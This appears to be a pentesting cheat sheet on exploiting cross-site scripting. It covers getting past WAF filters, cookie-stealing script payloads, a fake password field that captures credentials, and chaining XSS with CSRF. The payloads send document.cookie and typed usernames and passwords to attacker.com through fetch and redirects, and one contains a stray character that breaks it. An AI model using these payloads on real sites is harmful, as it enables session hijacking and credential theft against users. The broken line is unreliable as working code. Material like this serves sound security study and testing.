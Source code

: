 ## Bypass WAF

If you receive an error like "tag is not allowed" or "event is not allowed", use XSS cheat sheet ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) to discover a tag and event that work.

---

## Exploitation

### Steal cookies
```html
<script>fetch('//attacker.com?'+document.cookie)</script>
<!-- or -->
<script>location='//attacker.com?'?+document.cookie</script>
```

```html
<script>
fetch('https://attacker.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Limitation:

* The victim might not be logged in.
* Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
* Sessions might be locked to additional factors like the user's IP address.
* The session might time out before you're able to hijack it.

### Capture passwords

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### Perform CSRF

* When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.
* If the site use a token you can get it doing a first request and then add the token in a second request

---